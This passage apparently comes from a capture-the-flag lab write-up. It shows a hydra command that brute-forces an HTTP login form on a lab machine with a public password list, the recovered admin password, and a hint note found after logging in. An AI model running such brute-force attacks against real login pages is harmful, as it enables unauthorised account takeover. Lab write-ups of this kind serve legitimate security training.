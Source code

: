 ![image](assets/83318230-bc3c7580-a200-11ea-9eaa-a7d9f774a42f.png)

The command including the required information was the following:

```
hydra -l admin -P ~/tools/SecLists/Passwords/xato-net-10-million-passwords-10000.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -t 40
```

The hydra command was successful: admin:1q2w3e4r5t

![image](assets/83318891-17716680-a207-11ea-977a-67b2c001aa4d.png)

There wasn't much to the page other than the notes link. Clicking notes displays a message on the page.

```
Have you fixed the login page yet! hardcoded username and password is really bad idea!

check your serect folder to get in! figure it out! this is your challenge

Improve the db interface.
~amrois
```
